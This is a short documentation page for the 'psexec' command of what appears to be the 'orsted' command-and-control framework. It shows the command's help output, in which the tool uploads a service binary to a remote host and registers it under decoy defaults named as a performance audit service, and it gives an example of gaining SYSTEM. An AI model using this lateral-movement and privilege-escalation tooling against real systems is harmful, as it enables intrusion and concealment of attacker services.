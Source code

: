 ```yaml
---

title: psexec
descripton: orsted c2 psexec
---
```


### General

`psexec` allows you to psexec.

```
[Session 11: haroun@DESKTOP-DU89UIV] » psexec --help

PsExec a binary on a host

Usage:
  psexec [flags] hostname file [args...]

Args:
  hostname  string         Target host - ex. 127.0.0.1, machine1
  file      string         Service file to load
  args      string list    Argument of the Assembly

Flags:
  -b, --binpath     string    Path of the binary on the remote machine - make sure it is a windows service - no spaces (default: C:\Windows\performance_audit.exe)
  -h, --help                  display help
  -d, --servicedesc string    Description of the service no spaces (default: Service_used_to_audit_performance_of_the_application.)
  -s, --servicename string    Name of the service no spaces (default: auditorsvc)
```

It requires you to load the `psexec` dll with `load-module psexec`

Basically, it will take `file` upload it to `hostname\binpath` and create a service.

The file must be a service.

For example, to become system with `psexec`

```powershell
[Session 11: haroun@DESKTOP-DU89UIV] » psexec 127.0.0.1 main_http_svc.exe
```

PS: An issue I am too lazy to fix is that service description and service name cannot have space ...

